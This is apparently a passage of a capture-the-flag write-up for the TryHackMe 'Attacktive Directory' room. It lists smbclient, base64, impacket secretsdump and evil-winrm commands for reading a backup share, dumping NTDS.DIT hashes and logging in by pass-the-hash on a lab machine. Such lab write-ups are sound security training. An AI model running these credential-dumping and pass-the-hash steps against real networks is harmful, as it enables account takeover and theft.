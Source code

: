 14 - There is one particular share that we have access to that contains a text file. Which share is it?
* Search in the output of ```smbclient -h```

15 - What is the content of the file?
```
smbclient \\\\<ip-virtual-machine>\\backup -U "<user-from-impacket-output>"
smb: \> dir
smb: \> get <name-of-file>
smb: \> exit
```

17 - Decoding the contents of the file, what is the full contents?
* ```cat <name-of-file> | base64 --decode```

18 - What method allowed us to dump NTDS.DIT?
* Read the documentation in ```python3.9 /opt/impacket/examples/secretdump -h```

19) What is the Administrators NTLM hash?
* Use the tool secretsdump with the credentials obtained in the last task
* ```python3.9 /opt/impacket/examples/secretsdump.py <dns-domain-name>/<username>:<password>@<ip-virtual-machine>```

  <img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory06.png" width="50%">

20 - What method of attack could allow us to authenticate as the user without the password?
* Search about how to login to a remote server with an user's hash

21 - Using a tool called Evil-WinRM what option will allow us to use a hash?
* ```sudo gem install evil-winrm```
* Search in the output of ```evil-winrm -h```

22 - Submit the flags for each user account
* Use the tool evil-winrm with the credentials we obtained using secretsdump
* ```evil-winrm -i <ip-virtual-machine> -u <user-from-secretdump-output> -H <hash-from-secretdump-output>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory07.png" width="50%">  
  
* Browse to each user Desktop and find the flag files

23 - Get the flags!! 😎
